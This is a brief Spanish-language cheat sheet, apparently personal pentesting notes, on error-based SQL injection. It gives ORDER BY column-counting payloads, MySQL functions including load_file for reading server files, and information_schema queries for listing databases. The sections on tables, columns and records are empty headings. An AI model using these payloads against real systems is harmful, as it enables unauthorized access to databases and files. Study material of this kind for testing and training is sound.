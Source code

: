```yaml
---
layout: post
title: SQL - CheetSheat
tags: [Linux,CheetSheat]
description: SQL - CheetSheat
---
```


## Error Based

### Averiguar la cantidad de columnas

```
' ORDER BY 1-- -
' ORDER BY 2-- -
" ORDER BY 3-- -
" ORDER BY 4-- -
...
```

```
@@version
database()
load_file('<file>')
user()
```

### Nombre de la Base de Datos

```
SELECT schema_name FROM information_schema.schemata
SELECT count(*) FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata LIMIT 0,1
SELECT schema_name FROM information_schema.schemata LIMIT 1,1
SELECT schema_name FROM information_schema.schemata LIMIT 2,1
```

### Enumerar tablas

### Enumerar columnas

### Extraer registros

